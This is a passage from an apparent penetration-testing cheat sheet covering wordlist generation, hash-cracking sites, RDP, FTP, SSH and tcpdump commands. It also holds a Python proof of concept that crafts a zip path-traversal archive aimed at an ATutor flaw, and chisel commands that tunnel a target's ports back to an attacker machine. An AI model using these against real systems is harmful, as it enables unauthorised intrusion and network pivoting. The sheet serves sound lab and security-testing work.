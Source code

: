         - `cewl http://{IP}/{PATH} | tee wordlist.txt`
### Online
- https://crackstation.net/
- https://hashes.com/en/decrypt/hash

## Software
- RDP
	- `xfreerdp +drives /u:{username} /p:{password} /v:{ip}:{port}`
	    - `/size:1800x1000`
	    - `/u:{domain\username}`
- FTP
	- `ls`
	- `get {file_name}`
	- `put {file_name}`
	- Download recursive 
	    - `wget -r 'ftp://{ip}/{path}/'`
- Unzip
    - `.gz`
        - `gunzip  {filename.gz}`
- tcpdump
    - Recv icmp : `sudo tcpdump -i tun0 icmp`
    - Capture package : `tcpdump -i {interface} -s 65535 -w {file.pcap}`
- SSH
    - No matching host key type found. Their offer `...`
        - `ssh -o HostKeyAlgorithms=+{ssh-rsa}`
    - No matching key exchange method found. Their offer `...`
        - `ssh -o KexAlgorithms=+{diffie-hellman-group1-sha1}`
    - No matching cipher found. Their offer `...`
        - `ssh -o Ciphers=+{aes128-cbc}`
- Zip Path Traversal 
    - e.g. ATutor 2.2.1 Directory Traversal
```python
from io import BytesIO
import zipfile

f = BytesIO()
z = zipfile.ZipFile(f,'w',zipfile.ZIP_DEFLATED)
z.writestr('../../../../../../../tmp/meow','meowmeow')
z.close()

with open('poc.zip','wb') as fi:
    fi.write(f.getvalue())
```
### Reverse tunnel forwarding
- https://book.hacktricks.xyz/tunneling-and-port-forwarding
- [Chisel](https://github.com/jpillora/chisel) 
    - Port
        - Server : `./chisel server -p {listen_port} --reverse`
            - listen port can be random
        - Client : `./chisel client {Remote_host}:{listen_port} R:{forward_port_at_attacker}:127.0.0.1:{forward_port}`
        - eg. : Remote server run a program at `127.0.0.1:8888`,we need to forward to our attack machine's `127.0.0.1:8888`
            - `./chisel server -p 9999 --reverse`
            - `./chisel client 10.10.16.35:9999 R:8888:127.0.0.1:8888`
    - Proxy
        - Server `./chisel server -p {listen_port} --reverse`
        - Client `./chisel client {Remote_host}:{listen_port} R:socks`
        - Default proxy port : 1080 (sock5)
            - Set `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf` or firefox proxy
        - Change proxy port to 9487
            - Turn last statement to `R:9487:socks` 